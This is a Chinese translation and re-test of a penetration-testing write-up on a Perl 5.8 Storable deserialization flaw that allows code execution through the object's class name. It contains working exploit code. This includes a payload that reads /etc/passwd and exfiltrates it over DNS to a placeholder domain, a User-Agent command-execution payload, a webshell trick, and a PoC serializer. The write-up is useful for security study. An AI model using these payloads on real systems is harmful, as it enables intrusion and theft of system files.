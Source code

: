 # PERL 5.8的反序列化

**from:**[http://www.agarri.fr/kom/archives/2016/02/06/deserialization_in_perl_v5_8/index.html](http://www.agarri.fr/kom/archives/2016/02/06/deserialization_in_perl_v5_8/index.html)

0x00 文章简单翻译
=====

在做渗透测试的时候，我发现有个应用程序包含了form表单，其中有一个经过base64编码的hidden属性的参数名叫"state"，包含了一些字符串和二进制数据。

```
$ echo  'BAcIMTIzNDU2NzgECAgIAwMAAAAEAwAAAAAGAAAAcGFyYW1zCIIEAAAAc3RlcAQDAQAAAAiAHgAAAF9fZ2V0X3dvcmtmbG93X2J1c2luZXNzX3BhcmFtcwQAAABkYXRh' | base64 -d | hd 
00000000  04 07 08 31 32 33 34 35  36 37 38 04 08 08 08 03  |...12345678.....|
00000010  03 00 00 00 04 03 00 00  00 00 06 00 00 00 70 61  |..............pa|
00000020  72 61 6d 73 08 82 04 00  00 00 73 74 65 70 04 03  |rams......step..|
00000030  01 00 00 00 08 80 1e 00  00 00 5f 5f 67 65 74 5f  |..........__get_|
00000040  77 6f 72 6b 66 6c 6f 77  5f 62 75 73 69 6e 65 73  |workflow_busines|
00000050  73 5f 70 61 72 61 6d 73  04 00 00 00 64 61 74 61  |s_params....data|

```

我打开了burpsuite的Intruder,做"Character frobber" fuzzing测试。通过返回的结果，我发现了一些有趣的东西。如图1：

![p1](http://drops.javaweb.org/uploads/images/62af64677e3e205b32f4364fe69513e0d85b2996.jpg)

页面返回的结果里暴露了目标使用Perl和Storable 2.7，经过Google搜索，我知道Storable是Perl的一个模块，是用来做数据序列化的。查看Storable的官方文档我们可以看到有个很大的安全提示：

> Some features of Storable can lead to security vulnerabilities if you accept Storable documents from untrusted sources. Most obviously, the optional (off by default) CODE reference serialization feature allows transfer of code to the deserializing process. Furthermore, any serialized object will cause Storable to helpfully load the module corresponding to the class of the object in the deserializing module. For manipulated module names, this can load almost arbitrary code. Finally, the deserialized object's destructors will be invoked when the objects get destroyed in the deserializing process. Maliciously crafted Storable documents may put such objects in the value of a hash key that is overridden by another key/value pair in the same hash, thus causing immediate destructor execution.

有关这个安全问题，youtube上有个叫“ Weaponizing Perl Serialization Flaws with MetaSploit”的视频，作者还把相关代码放在了github([https://github.com/lightsey/cve-2015-1592](https://github.com/lightsey/cve-2015-1592))，有了前人的经验，我想再应用到我的渗透项目里，应该不是太难：），但是经过一些测试后，我发现我不能按照前人的经验来应付我现在的渗透场景，Storable默认使用跨平台的nfreeze()函数来做序列化。例子代码如下：

```
#!/usr/bin/perl

use MIME::Base64 qw( encode_base64 );
use Storable qw( nfreeze );

{
    package foobar;
    sub STORABLE_freeze { return 1; }
}

# Serialize the data
my $data = bless { ignore => 'this' }, 'foobar';
my $frozen = nfreeze($data);

# Encode as Base64+URL and display
$frozen = encode_base64($frozen, '');
$frozen =~ s/\+/%2B/g;
$frozen =~ s/=/%3D/g;
print "$frozen\n";

```

当运行这段代码的时候，报错如下：

```
No STORABLE_thaw defined for objects of class foobar (even after a "require foobar;") at ../../lib/Storable.pm (autosplit into ../../lib/auto/Storable/thaw.al) line 366, at /var/www/cgi-bin/victim line 29
For help, please send mail to the webmaster (support@bigcorp.tld), giving this error message and the time and date of the error.

```

通过报错信息，我认为通过控制"foorbar"字符，尝试注入";"，或许可以注入恶意的Perl代码来运行:D，为了验证我的想法，我通过[https://metacpan.org/source/AMS/Storable-2.51/Storable.xs](https://metacpan.org/source/AMS/Storable-2.51/Storable.xs)查看源码，结果却很失望。

```
if (!Gv_AMG(stash)) {
        const char *package = HvNAME_get(stash);
        TRACEME(("No overloading defined for package %s", package));
        TRACEME(("Going to load module '%s'", package));
        load_module(PERL_LOADMOD_NOIMPORT, newSVpv(package, 0), Nullsv);
        if (!Gv_AMG(stash)) {
                CROAK(("Cannot restore overloading on %s(0x%"UVxf") (package %s) (even after a \"require %s;\")",
                       sv_reftype(sv, FALSE), PTR2UV(sv), package, package));
        }
}

```

通过在Storable.xs源码里搜索“`No STORABLE_thaw defined for objects`”报错信息，定位到了4388行的`load_module(PERL_LOADMOD_NOIMPORT, newSVpv(classname, 0), Nullsv);`这里仅仅调用了`load_module()`,并没有我想要的requrie功能，但是视频里不是这么说的，我又查看了2.15版本的Storable.xs源码[https://metacpan.org/source/AMS/Storable-2.15/Storable.xs](https://metacpan.org/source/AMS/Storable-2.15/Storable.xs)，经过源码对比，发现2.15版的Storable第4297行，多了`perl_eval_sv(psv, G_DISCARD);`

```
4295,4298c4387,4388
<               TRACEME(("Going to require module '%s' with '%s'", classname, SvPVX(psv)));
< 
<               perl_eval_sv(psv, G_DISCARD);
<               sv_free(psv);
---
>               TRACEME(("Going to load module '%s'", classname));
>               load_module(PERL_LOADMOD_NOIMPORT, newSVpv(classname, 0), Nullsv);

```

可以看到，object名(package名后面的字符)直接传入了`perl_eval_sv()`函数。Perl >=5.10以后会使用新的载入机制，所以不受该漏洞影响，而我的目标运行在Perl 5.8，5.8版的Perl在许多老的Linux发行版本(像 RHEL/CentOS 5)是默认安装的，是受此漏洞影响的。这里我只要把我的payload放到object名后面就可以了，我可以载入"POSIX"模块，然后通过`eval()`来运行系统命令。但是这里需要注意的object名的长度是252字节，但也足够我们写payload了。假设我想通过dns来获取返回信息，payload可以这样构造：

```
Socket;use MIME::Base64;sub x{$z=shift;for($i=0;$i<length($z);$i+=45){$x=encode_base64(substr($z,$i,$i+45),'');gethostbyname($x.".dom.tld");}} open(f,"/etc/passwd");while(<f>){x($_)}

```

payload可以构造的很短，比如通过User-Agent来获取命令，然后放入POSIX模块的eval()执行

```
POSIX;eval($ENV{HTTP_USER_AGENT});exit;

```

这里还有一个技巧：如果目标的CGI是不显错的，我可以通过`CGI:Carp的fatalsToBrowser`来把正常输出和报错信息都吐给浏览器，来实现一个简单的webshell。

我这里提供了[http://www.agarri.fr/docs/victim](http://www.agarri.fr/docs/victim)和[http://www.agarri.fr/docs/PoC_thaw_perl58.pl](http://www.agarri.fr/docs/PoC_thaw_perl58.pl)用来做测试练习。

0x01 本地实际测试
=====

我的测试代码如下：

```
#!/usr/bin/perl

use MIME::Base64 qw( encode_base64 );
use Storable qw( nfreeze );

print Storable->VERSION."\n";

{
    package foobar;POSIX;eval(system("uname"));exit;;;;;
    sub STORABLE_freeze { return 1; }
}

# Serialize the data
my $data = bless { ignore => 'this' }, 'foobar;POSIX;eval(system("uname"));;;;;;;';
my $frozen = nfreeze($data);

print $frozen;

# Encode as Base64+URL and display
$frozen = encode_base64($frozen, '');
$frozen =~ s/\+/%2B/g;
$frozen =~ s/=/%3D/g;
print "BASE64:$frozen\n";

```

如果只是本地测试，可以使用perlbrew来切换perl5.8.9和kali 1.10自带的perl 5.14.2,测试结果如图2所示：

![p2](http://drops.javaweb.org/uploads/images/2f39b461ffe2355c1f4dd24d7f2372d312540254.jpg)

可以看到perl 5.8.9是受漏洞影响的，而perl 5.14.2没有受影响。

接下来在测试下perl cgi,代码就用作者提供的[http://www.agarri.fr/docs/victim](http://www.agarri.fr/docs/victim)，作者提供的POC需要稍微改改，要不然获取不到命令执行结果，测试结果如图3所示：

![p3](http://drops.javaweb.org/uploads/images/85193829a7763dc52cbd1c191f98b6ce8dc88b7e.jpg)

0x02 参考文档：
=====

*   perl bless 用法实例：[http://blog.chinaunix.net/uid-28246152-id-3399154.html](http://blog.chinaunix.net/uid-28246152-id-3399154.html)
*   Weaponizing Perl Serialization Flaws with MetaSploit：[https://www.youtube.com/watch?v=Gzx6KlqiIZE](https://www.youtube.com/watch?v=Gzx6KlqiIZE)
*   The Storable security problem：[http://www.masteringperl.org/2012/12/the-storable-security-problem/](http://www.masteringperl.org/2012/12/the-storable-security-problem/)
*   Perl多版本共存之Perlbrew：[http://ju.outofmemory.cn/entry/138392](http://ju.outofmemory.cn/entry/138392)

感谢的人：  
多年来一直辅导我的月总